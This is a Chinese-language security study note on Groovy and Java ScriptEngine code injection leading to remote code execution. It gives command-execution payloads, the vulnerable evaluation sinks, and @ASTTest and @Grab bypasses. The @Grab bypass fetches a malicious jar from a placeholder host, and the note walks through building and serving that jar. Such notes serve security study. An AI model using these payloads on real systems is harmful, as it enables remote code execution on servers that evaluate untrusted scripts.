 # Groovy

## 基本介绍

Groovy是JVM的一个替代语言（替代是指可以用Groovy在Java平台上进行Java编程）

通过`Groovy`来达到命令执行demo，`test.groovy`如下

```groovy
class test {
    static void main(args){
        def cmd = "calc";
        println "${cmd.execute()}";
    }
}

// 直接命令执行
Runtime.getRuntime().exec("calc")
"calc".execute()
'calc'.execute()
"${"calc".execute()}"
"${'calc'.execute()}"

// 回显型命令执行
println "whoami".execute().text
println 'whoami'.execute().text
println "${"whoami".execute().text}"
println "${'whoami'.execute().text}"
def cmd = "whoami";println "${cmd.execute().text}";
```

## 相关场景

如果外部可控输入Groovy代码或者外部可上传一个恶意的Groovy脚本，且程序并未对输入的Groovy代码进行有效的过滤，那么会导致恶意的Groovy代码注入，从而RCE

- #### GroovyShell

  `groovy.lang.GroovyShell`可以解析任意Groovy表达式的值和运行任意Groovy脚本

  ```java
  // 解析任意Groovy表达式
  import groovy.lang.GroovyShell;
  
  public class GroovyShellExample {
      public static void main( String[] args ) {
          GroovyShell groovyShell = new GroovyShell();
          groovyShell.evaluate("\"calc\".execute()");
      }
  }
  ```

  ```java
  // 运行任意Groovy脚本
  import groovy.lang.GroovyShell;
  import groovy.lang.Script;
  
  import java.io.File;
  
  public class GroovyShellExample {
      public static void main( String[] args ) throws Exception {
          //通过加载本地脚本
          GroovyShell shell = new GroovyShell();
          Script script = shell.parse(new File("src/main/java/ysoserial/vulndemo/GroovyTest.groovy"));
          script.run();
  
          GroovyShell shell = new GroovyShell();
          shell.evaluate(new File("src/main/java/ysoserial/vulndemo/GroovyTest.groovy"));
          
          //通过加载远程脚本
          GroovyShell shell = new GroovyShell();
          shell.evaluate(new URI("http://127.0.0.1:8888/GroovyTest.groovy"));
      }
  }
  ```

- #### GroovyScriptEngine

  ```java
  //通过传入根路径之后调用对应的脚本
  GroovyScriptEngine scriptEngine = new GroovyScriptEngine("src/main/java/ysoserial/vulndemo");
  scriptEngine.run("GroovyTest.groovy", "");
  
  //通过调用远程url之后调用特定脚本
  GroovyScriptEngine scriptEngine = new GroovyScriptEngine("http://127.0.0.1:8888/");
  scriptEngine.run("GroovyTest.groovy", "");
  
  //通过Binding加载
  GroovyScriptEngine scriptEngine = new GroovyScriptEngine("");
  scriptEngine.run("src/main/java/ysoserial/vulndemo/GroovyTest.groovy", new Binding());
  ```

- #### GroovyClassLoader

  ```java
  //从文件中获取Groovy类
  GroovyClassLoader groovyClassLoader = new GroovyClassLoader();
  Class aClass = groovyClassLoader.parseClass(new File("src/main/java/ysoserial/vulndemo/GroovyTest.groovy"));
  GroovyObject object = (GroovyObject) aClass.newInstance();
  object.invokeMethod("main", "");
  
  //从文本中获取Groovy类
  GroovyClassLoader groovyClassLoader = new GroovyClassLoader();
  Class aClass = groovyClassLoader.parseClass("class GroovyTest {\n" +
  "    static void main(args){\n" +
  "        println \"${'whoami'.execute().text}\"\n" +
  "\n" +
  "    }\n" +
  "}");
  GroovyObject groovyObject = (GroovyObject) aClass.newInstance();
  groovyObject.invokeMethod("main", "");
  ```

- #### ScriptEngine

  ```java
  ScriptEngine scriptEngine = new ScriptEngineManager().getEngineByName("groovy");
  System.out.println(scriptEngine.eval("\"whoami\".execute().text"));
  ```

## ByPass

- #### @AST注解执行断言

  ```groovy
  this.class.classLoader.parseClass('''
      @groovy.transform.ASTTest(value={
          assert Runtime.getRuntime().exec("calc")
      })
      def x
  ''');
  ```

- ##### @Grab注解加载远程恶意类

  ```groovy
  //@Grab注解加载远程恶意类
  this.class.classLoader.parseClass("""
      @GrabConfig(disableChecksums=true)
      
      // 加载依赖会看本地仓库是否有，如果没有就从root服务器的group/module/version目录里面下载EvilJar.jar文件，默认存放在~/.groovy/grapes目录下
      @GrabResolver(name="Poc", root="http://ip:8888/")
      @Grab(group="Poc", module="EvilJar", version="0")
      
      import java.lang.String
  """);
  ```

  远程恶意类

  ```java
  //Poc.java
  public class Poc{
      Poc() throws Exception{
          Runtime.getRuntime().exec("calc");
      }
  }
  
  //编译成.class文件
  javac Poc.java
  //创建目录
  mkdir -p META-INF/services/
  //在org.codehaus.groovy.plugins.Runners中写入加载的类名Poc
  echo Poc > META-INF/services/org.codehaus.groovy.plugins.Runners
  //将.class文件打包成jar包
  jar cvf EvilJar Poc.class META-INF/
  //创建放jar包的目录
  mkdir -p group/module/version/
  //将jar包复制到该目录下
  mv EvilJar group/module/version
  //之后开启http服务
  python -m http.server --bind 0.0.0.0 8888
  ```

  

# ScriptEngine

## 基本介绍

javax.script.ScriptEngine类是java自带的用于解析并执行js代码,可以在javascript中执行java代码.

漏洞代码

```java
ScriptEngine engine = new ScriptEngineManager().getEngineByName("js");
Bindings bindings = engine.getBindings(ScriptContext.ENGINE_SCOPE);
String cmd = String.format("load(\"%s\")", jsurl);
engine.eval(cmd, bindings);
```

jscmd.js

```js
var a = mainOutput(); function mainOutput() { var x=java.lang.Runtime.getRuntime().exec("calc");}
```

![image-20231029150959984](F:/知识库/blog/source/images/image-20231029150959984.png)

